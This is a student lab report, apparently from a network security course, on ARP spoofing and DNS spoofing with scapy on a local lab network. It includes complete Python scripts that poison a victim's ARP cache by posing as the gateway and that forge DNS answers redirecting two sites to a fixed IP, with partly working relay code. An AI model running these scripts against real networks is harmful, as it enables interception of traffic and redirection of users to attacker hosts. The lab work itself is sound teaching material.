 **Coverage**   	ARP spoofing, DNS spoofing<br />**Due** 		March 25, 2022


### ARP Spoofing
We use `scapy`to achieve ARP spoofing.<br />First, we check the IP address and gateway of the victim:
![image.png](./assets/1647508268364-38a99d44-e4c0-4c2a-894f-c64c1c725b50.png)
Then we can write the code with the tips (members of the `Ether` and `ARP` classes) below:
![image.png](./assets/1647398875060-45cc1253-1263-4f68-9e88-b9ff8462a9e0.png)
The code is:
```python
from scapy.all import *

eth = Ether(src='00:0c:29:c6:be:84', dst='ff:ff:ff:ff:ff:ff')
arp = ARP(hwsrc='00:0c:29:c6:be:84', psrc='192.168.248.228', hwdst='00:00:00:00:00:00', pdst='192.168.248.16')
# hwsrc - hardware src (src MAC addr), psrc - protocol src (src IP addr)
srp(eth/arp)
```
The Ethernet frame has the src `00:0c:29:c6:be:84`, which is the MAC address of the attacker; The dst is `ff:ff:ff:ff:ff:ff`, which is the boardcast MAC address.

In the ARP packet, the hwsrc (hardware src) is also `00:0c:29:c6:be:84`, and the attacker declare that it has the IP address (psrc, protocol src)`192.168.248.228`, which is the default gateway of the victim. The hwdst is `00:00:00:00:00:00`as the ARP packet know nothing about the MAC address of the victim. The pdst is the IP address of the victim, so the victim will answer this ARP packet.

Function `srp()` is used for sending packets and receiving answers.

We can run the code, and check the ARP table of the victim before and after the progress:
![image.png](./assets/1647507617693-90176526-1444-4cd4-9670-8bf00d135b86.png)
![image.png](./assets/1647507601472-833938e3-d3b7-4a74-a3f8-a91a9ce6cb2d.png)
We can see that the ARP spoofing succeeded.


### DNS Spoofing
We check the structure of UDP and DNS packets:
![image.png](./assets/1647525306636-80020119-48a0-468f-af58-8040cbf3a7c3.png)
And we can write the code below:
```python
from struct import pack
from xdrlib import Packer
from scapy.all import *
import sys

dns_hosts = {
    b"www.baidu.com.": "8.136.83.180",
    b"www.bilibili.com.": "8.136.83.180",
}
victimip = '192.168.248.16'
real_dns_mac = '5e:d5:61:82:f0:30'
gateway = '192.168.248.228'

# dns包 = Ether()/IP()/UDP()/DNS(id,qr,opcode,rd，qd=DNSQR(qnname=dns_name), verbose=False) 
# id标识 匹配请求与回应 qr 0表示查询报文 opcode 0表示标准查询 rd 1表示递归

def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            print("[Query]:\t",data.summary())

            request_eth = data
            eth = Ether(src = data.dst, dst = data.src)
            
            request_ip = request_eth.payload
            ip = IP(src = gateway, dst = request_ip.src)
            
            request_udp = request_ip.payload
            udp = UDP(sport = request_udp.dport, dport = request_udp.sport)
            
            request_dns = request_udp.payload
            dns = DNS(id = request_dns.id, qr = 1, qd = request_dns.qd, ra = 1, 
            	      an = DNSRR(rrname=request_dns.qd.qname, 
            	      		rdata=dns_hosts[request_dns.qd.qname], ttl = 10))
            
            
            packet = eth/ip/udp/dns
            
            # Craft a response to the request 
            # Be careful about the src and dst 
            # Wireshark is a good tool to debug your script
            print("[Response]\t",packet.summary())
            sendp(packet)
        else:
            pass # 可以写一个转发到真实dns server的功能
    except Exception as e:
        pass


def DNS_S(iface):
    # count	需要捕获的包的个数，0 代表无限
    # store	是否需要存储捕获到的包
    # filter	指定嗅探规则过滤，遵循 BPF （伯克利封包过滤器）
    # timeout	指定超时时间
    # iface	指定嗅探的网络接口或网络接口列表，默认为 None，即在所有网络接口上嗅探
    # prn	传入一个可调用对象，将会应用到每个捕获到的数据包上，如果有返回值，那么它不会显示
    # offline	从 pcap 文件读取包数据而不是通过嗅探的方式获得
    #sniff(prn=DNS_Spoof,filter="udp and src net {}".format(victimip),iface=iface)
    sniff(prn=DNS_Spoof,filter=f"src net {victimip} and not arp",iface=iface)



if __name__ == '__main__':
    DNS_S('')
```
We try to PING the 2 websites, and we can get the IP address `8.136.83.180`, which shows that the DNS Spoofing was successful:
![image.png](./assets/1647538376452-4f8fd180-90b5-4900-9be5-99dbaad1bfa2.png)


### Go deeper?

But we can also see that when we ping a different website like `www.yuque.com`, the DNS responds nothing. So we try to relay the requests on other websites to the real gateway:
```python
def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            # same to dns_spoof.py
        else:
            if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
            	data.dst = real_dns_mac
            	data.src = '00:0c:29:c6:be:84'
            sendp(data)
```
And the victim can get the IP address of other websites correctly:
![image.png](./assets/1647532118138-8296347d-aed4-461a-b788-46018ec8445b.png)

Furthermore, we can find that the victim cannot actually access the websites, _maybe_ because that scapy cannot sniff TCP packets well, as my logs have only UDP packets in it. I tried for several hours but I can't find the problem. 

This is the final code I used, where I try to give the victim a wrong gateway, which the attacker pretend to be, so that the attacker can use the real gateway. But it turned out in vain.
```python
from struct import pack
from xdrlib import Packer
from scapy.all import *
import sys

dns_hosts = {
    b"www.baidu.com.": "8.136.83.180",
    b"www.bilibili.com.": "8.136.83.180",
}
victimip = '192.168.248.16'
real_dns_mac = '5e:d5:61:82:f0:30'
gateway = '192.168.248.229'

# dns包 = Ether()/IP()/UDP()/DNS(id,qr,opcode,rd，qd=DNSQR(qnname=dns_name), verbose=False) 
# id标识 匹配请求与回应 qr 0表示查询报文 opcode 0表示标准查询 rd 1表示递归

def DNS_Spoof(data):
    try:
        print(data.summary())
        if data.haslayer(DNSQR) and data[DNS].qd.qname in dns_hosts.keys():
            print("[Query]:\t",data.summary())

            request_eth = data
            #eth = Ether(src = '00:0c:29:c6:be:84', dst = 'ff:ff:ff:ff:ff:ff')
            eth = Ether(src = data.dst, dst = data.src)
            print(eth.src)
            
            request_ip = request_eth.payload
            ip = IP(src = gateway, dst = request_ip.src)
            
            request_udp = request_ip.payload
            udp = UDP(sport = request_udp.dport, dport = request_udp.sport)
            
            request_dns = request_udp.payload
            dns = DNS(id = request_dns.id, qr = 1, qd = request_dns.qd, ra = 1, 
            	      an = DNSRR(rrname=request_dns.qd.qname, 
            	      		rdata=dns_hosts[request_dns.qd.qname], ttl = 10))
            
            
            packet = eth/ip/udp/dns
            
            # Craft a response to the request 
            # Be careful about the src and dst 
            # Wireshark is a good tool to debug your script
            print("[Response]\t",packet.summary())
            sendp(packet)
        else:
            # pass # 可以写一个转发到真实dns server的功能
            if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
            	data.dst = data.src #real_dns_mac
            	data.src = '00:0c:29:c6:be:84'
            	if data.haslayer(IP):
            		if data[IP].dst == '192.168.248.229':
            			data[IP].dst = '192.168.248.228'
            		print("[Relay]\t", data[IP].src, data[IP].dst, data.summary())
            #else:
            	#print(data.summary())
            sendp(data)
            
    except Exception as e:
    	#print("[Error]\t", e)
    	if data.haslayer(Ether) and data[Ether].dst == '00:0c:29:c6:be:84':
    		data.dst = data.src #real_dns_mac
    		data.src = '00:0c:29:c6:be:84'
    		if data.haslayer(IP):
    			if data[IP].dst == '192.168.248.229':
            			data[IP].dst = '192.168.248.228'
    			print("[Relay]\t", data[IP].src, data[IP].dst, data.summary())
    	#else:
    		#print(data.summary())
    	sendp(data)


def DNS_S(iface):
    # count	需要捕获的包的个数，0 代表无限
    # store	是否需要存储捕获到的包
    # filter	指定嗅探规则过滤，遵循 BPF （伯克利封包过滤器）
    # timeout	指定超时时间
    # iface	指定嗅探的网络接口或网络接口列表，默认为 None，即在所有网络接口上嗅探
    # prn	传入一个可调用对象，将会应用到每个捕获到的数据包上，如果有返回值，那么它不会显示
    # offline	从 pcap 文件读取包数据而不是通过嗅探的方式获得
    #sniff(prn=DNS_Spoof,filter="udp and src net {}".format(victimip),iface=iface)
    sniff(prn=DNS_Spoof,filter=f"src net {victimip} and not arp",iface=iface)



if __name__ == '__main__':
    DNS_S('')
```
![QQ截图20220318010020.jpg](./assets/1647538231401-18795953-b4a4-4e58-bcdb-d4a5a0699e74.jpeg)

I found several articals on DNS spoofing, but it turns out that, in most of them the attacker is not pretending to be the gateway, but a man in the middle instead. In this method, the attacker can just give the wrong DNS message when in need, and use the regular function of the gateway in other cases.
